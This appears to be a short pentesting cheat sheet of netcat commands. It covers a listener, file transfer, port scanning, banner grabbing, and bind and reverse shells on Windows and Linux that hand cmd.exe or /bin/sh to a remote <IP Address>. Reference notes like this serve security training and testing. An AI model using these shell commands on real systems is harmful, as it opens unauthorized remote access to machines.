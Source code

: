 # General Listener
Unless otherwise noted, most of these will require an established listener:
```
nc -nvlp 1337
```

# Transfer a file
---
Sender
```
nc -nv <IP Address> < input.txt
```
Recipient 
```
nc -lvp 4444 >output.txt
```

# Set up a Netcat Bind Shell (Windows)
---
```
nc -lvp 4444 -e cmd.exe
```

# Set up a Netcat Bind Shell (Linux)
---
```
nc -lvp 4444 -e /bin/sh
```

# Set up a Netcat Reverse Shell (Windows)
---
```
nc -nv <IP Address> 443 -e cmd.exe
```

# Set up a Netcat Reverse Shell (Linux)
---
```
nc -nv <IP Address> 443 -e /bin/sh
```

# Netcat as a Port Scanner
---
```
nc -z <IP Address> <Port Range in abc - xyz format>
```

# Netcat as a Banner Grabber
---
```
echo "" | nc -nv -w1 <IP Address> <Ports>
```

**Sources**: 

- [Netsec](https://netsec.ws/?p=292)